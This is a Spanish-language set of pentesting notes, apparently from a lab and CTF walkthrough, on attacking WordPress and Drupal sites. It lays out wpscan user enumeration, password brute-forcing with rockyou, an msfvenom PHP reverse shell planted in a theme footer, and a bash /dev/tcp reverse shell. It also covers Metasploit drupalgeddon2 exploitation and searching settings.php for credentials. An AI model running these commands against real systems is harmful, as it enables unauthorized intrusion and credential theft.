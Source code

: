 ```yaml
---
icon: '6'
---
```


# Hacking Entornos CMS

## Hacking en Entornos WordPress

{% embed url="https://tryhackme.com/room/internal" %}

Cuando nos encontremos que la página se ve algo mal debemos apuntar la **IP de la máquina víctima** al dominio de **WordPress** en el archivo `/etc/hosts`.

Hay que encontrar el panel de **Login** es decir con el archivo `wp-login.php`.  Usamos la herramienta **WPscan** que nos permite realizar una auditoría de este CMS y poder enumerar tanto plugins vulnerables como usuarios existentes.

```bash
wpscan --url http://<IP máquina víctima>/blog --enumerate u,vp
```

Al obtener el usuario **admin** hacemos fuerza bruta para obtener la contraseña.

```
wpscan --url http://<IP máquina víctima>/blog --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```

Ir al apartado **Appearance** y a **Theme Footer** y pegamos el payload. Pegamos el contenido del payload generado por **msfvenom**.

```
msfvenom -p /php/reverse_php LHOST=<OP máquina atacante> LPORT=443 -f raw > pwned.php
```

Y nos ponemos en escucha.

```bash
nc -nlvp 443
```

Ganamos acceso pero nos tenemos que mandar otra nueva conexión porque sino la perdemos.

```
nc -nlvp 4444 #nos ponemos en escucha
bash -c "sh -i >& /dev/tcp/192.168.1.50/4444 0>&1"
```

## Hacking en Entornos Drupal – PARTE 1

{% embed url="https://ctf.comunidadhackingetico.es/challenges" %}

**Drupal** es un CMS muy utilizado a día de hoy, tratándose de una alternativa a WordPress, por lo que también existen técnicas de explotación y vulnerabilidades en este tipo de CMS. Tenemos que ver que versión de **Drupal** tenemos.

```bash
msfconsole
search drupal 7 #druppalgeddon2
use 1
show options
set RHOSTS http://<IP máquina víctima>/drupal-7.57/
run
```

En meterpreter.

```bash
shell
bash -i
```

## Hacking en Entornos Drupal – PARTE 2

{% embed url="https://mega.nz/file/qEVWUKqR#3CheB213YMSaj-VUXSu1LOj2hlI7AwD-lQUbrtR_9W0" %}

Para ver la versión.

```bash
whatweb http://IP/
```

Explotar la vulnerabilidad.

```bash
msfconsole
search drupal 8
use exploit/unix/webapp/drupal_drupalgeddon2
show options
set RHOSTS <IP máquina víctima>
exploit
```

En meterpreter.

```bash
shell 
bash -i
find / -name settings.php 2>/dev/null
# Hacer un cat del archivo para ver si hay contraseñas.
```

> **Nota**: Tener en cuenta el archivo settings.php
